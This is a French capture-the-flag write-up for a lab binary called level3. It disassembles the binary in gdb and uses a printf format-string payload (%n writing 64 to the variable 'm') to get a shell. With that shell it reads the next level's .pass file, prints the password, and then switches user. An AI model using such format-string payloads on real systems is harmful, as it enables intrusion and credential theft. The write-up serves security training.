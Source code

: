 # Level3

On observe un executable a la racine `level3`

```bash
$ ./level3
Hello World
Hello World
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level3 -q
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:      push   ebp
   0x0804851b <+1>:      mov    ebp,esp
   0x0804851d <+3>:      and    esp,0xfffffff0
   0x08048520 <+6>:      call   0x80484a4 <v>
   0x08048525 <+11>:     leave
   0x08048526 <+12>:     ret
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:      push   ebp
   0x080484a5 <+1>:      mov    ebp,esp
   0x080484a7 <+3>:      sub    esp,0x218
   0x080484ad <+9>:      mov    eax,ds:0x8049860
   0x080484b2 <+14>:     mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:     mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:     lea    eax,[ebp-0x208]
   0x080484c4 <+32>:     mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:     call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:     lea    eax,[ebp-0x208]
   0x080484d2 <+46>:     mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:     call   0x8048390 <printf@plt>
   0x080484da <+54>:     mov    eax,ds:0x804988c
   0x080484df <+59>:     cmp    eax,0x40
   0x080484e2 <+62>:     jne    0x8048518 <v+116>
   0x080484e4 <+64>:     mov    eax,ds:0x8049880
   0x080484e9 <+69>:     mov    edx,eax
   0x080484eb <+71>:     mov    eax,0x8048600
   0x080484f0 <+76>:     mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:     mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:     mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:     mov    DWORD PTR [esp],eax
   0x08048507 <+99>:     call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:    mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:    call   0x80483c0 <system@plt>
   0x08048518 <+116>:    leave
   0x08048519 <+117>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level3`

```bash
$ scp -P 4242 -r level3@192.168.56.102:/home/user/level3/level3 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level3
```

_resultat sauvegarde dans [source.md](source.md)_

On remarque que la fonction `v` compare la valeur de `m` a `64`

On regarde de la valeur de `m` juste avant la comparaison

```bash
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< "Hello World"
Starting program: /home/user/level3/level3 <<< "Hello World"
Hello World

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x0    0
```

On peut aussi remarquer que la fonction `v` fait un appel a `printf` en utilisant notre `input` directement en parametre. Il existe une faille dans printf dans ce cas la. Nous allons verifier tout ca maintenant

```bash
$ python -c 'print "AAAA %.8x %.8x %.8x %.8x"' | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

`%x` nous affiche ici l'adresse dans la stack puis la suivante et ainsi de suite. Nous retombons sur nos `AAAA` avec `41414141`

l'adresse de `m` est `0x804988c`. Nous allons donc chercher a mettre ca en memoire et a le retrouver grace a `%x`

```bash
$ python -c 'print "\x8c\x98\x04\x08 %4$.8x"' | ./level3
� 0804988c
```

Nous allons maintenant utiliser `%n` a la place de `%x` qui nous permet a l'adresse lu (affiche par `%x`) enregistrer le nombre de caratere afficher par printf. Essayons de changer notre `%x` en `%n` et afficher la valeur de `m`

```bash
(gdb) set disassembly-flavor intel
(gdb) break *v+59
Breakpoint 1 at 0x80484df
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08%4$n"')
��

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x4   4
```

Grace au `%n` du printf nous avons reussit a ecrire le nombre `4` a l'adresse de `m`. Plus qu'a mettre cette valeur a 64

```bash
(gdb) run <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"')
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484df in v ()
(gdb) i r eax
eax            0x40    64
```

plus qu'a essayer

```bash
$ (python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"'; cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
Ctrl+D

level3:$ su level4
Password:

level4:$
```
